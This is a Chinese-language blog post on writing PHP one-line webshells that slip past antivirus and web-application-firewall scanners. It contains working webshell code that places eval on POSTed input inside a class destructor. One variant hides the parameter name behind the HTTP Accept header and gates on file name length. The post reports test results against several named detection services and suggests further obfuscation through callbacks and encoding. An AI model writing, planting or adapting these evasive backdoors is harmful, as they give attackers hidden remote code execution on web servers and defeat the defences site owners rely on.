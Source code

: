 ## 0x00  shell编写思路
目前我们一句话shell的编写归根揭底就为命令执行, 只要最后代码命令执行我们外部参数就可称为webshell了，而菜刀的出现也是方便我们使用，我们这时候就用简短的一句话实现我们下一步入侵的功能
,而一般php的命令执行:

>php命令执行函数,分为两种(执行php代码的eval、assert),执行系统命令函数的(system、exec、popen)

言而总之让我们的代码最后可以`eval($_POST['pass'])`就可以了，然而你正常的在代码里写是绝对会被防护软件杀的,我的思路是在类里面写命令执行函数,看安全狗敏不敏感,事实上此思路来自某次审计cms，他们并没有你想的那么智能的拦截

某次看到一个这样的文件
``` php
class test{
    public function __contruct($xx = ""){
		$this->xx = $xx;
}

	public function __destruct(){
		eval(serialize($this->xx))
}
}
```
这样的文件一般会拦截吗,我分别使用了安全狗,webkill，d盾 尝试结果如下:
我写了这样一个文件
``` php
class test{
    public ex($str = ""){
    eval($str);
    }
}
```
![](attachments/contributeupload/180513160566cf0d7fb5a59fc7.png)

## 0x02 实验尝试
只有d盾对其拦截了，当我们把这个类引入构造函数__contruct 和解构函数时__destruct,构造一句话为
``` php
<?php
class OowoO{
    public $mdzz;
    function __construct($str = ""){
        $this->mdzz = $str;
    }

    function __destruct(){
        eval($this->mdzz);
    }
}
if(isset($_POST["pass"])){
    $m= new OowoO($_POST["pass"]);
}
?>
```
菜刀连接尝试
![](attachments/contributeupload/1805131617b4c05c06b90f6919.png)
![](attachments/contributeupload/1805131618806b11ece90ea0f5.png)
当然了这样的基本上d盾和安全狗还有河马的桌面版是不会杀的
我们得出的结论,安全查杀并没有对php类的构造函数和魔术方法进行查杀和检测，我们这样一想可扩展的地方多了(从混淆传入的字符使用回调函数进行代码执行,正则等，加密？？？)

##0x03 扩展引用
这里引用tools的大佬文章的扩展绕过沙盒和人工智能的在线webshell进行查杀的思路,菜刀配置为:
![](![](attachments/contributeupload/1805131656d892c774eed9d49a.png))
shell如下:
``` php
<?php
#error_reporting(5);
#ini_set('session_serialize_handler', 'php');
#session_start();
class OowoO{
    public $mdzz;
    public $func;
    function __construct($str = ""){
        $this->mdzz = $str;
    }

    function __destruct(){
        if(strlen(substr(__FILE__,strripos(__FILE__,"/")+1)-4 <5))
        {
            eval($this->mdzz);
        }
    }
}
if(isset($_POST["$_SERVER[HTTP_ACCEPT]"])){
    $m= new OowoO($_POST["$_SERVER[HTTP_ACCEPT]"], $_POST['func']);
}
?>
```
尝试对大佬说的几个在线进行测试
>BugScaner killwebshell 链接地址 [http://tools.bugscaner.com/killwebshell/](http://tools.bugscaner.com/killwebshell/)
![](attachments/contributeupload/1805131632f01b12f7926714c9.png)

>河马专业版查杀Webshell 链接地址[http://n.shellpub.com/](http://n.shellpub.com/)
![](attachments/contributeupload/1805131641d6d33e6d2512ee2d.png)

>OpenRASP WEBDIR+检测引擎 链接地址 [https://scanner.baidu.com](https://scanner.baidu.com)
![](attachments/contributeupload/18051316452df41af210262443.png)

>PHP webshel​​l检测的深度学习模型 链接地址[http://webshell.cdxy.me/](http://webshell.cdxy.me/)
![](attachments/contributeupload/18051316502d730c901861622c.png)
*我感觉是eval在代码里出现被检测了,其实深度学习的模型应该是像后门的框架库一样去学习检测吧,后来在解构函数代码利用回调函数拼接字符继续bypass 
![](attachments/contributeupload/180513165488eb7a432a6f99b1.png)

## 0x04 总结
传统通过匹配文中特殊函数的检测可以外部传入特殊函数,或者利用字符特性进行编码或部分传入,其实很大一部分都是特征, 针对一句话来讲我们绕过的优势还是很大的,其实难点在于如何连接菜刀时不被拦截,我感觉这才是我们绕过防护最难之处



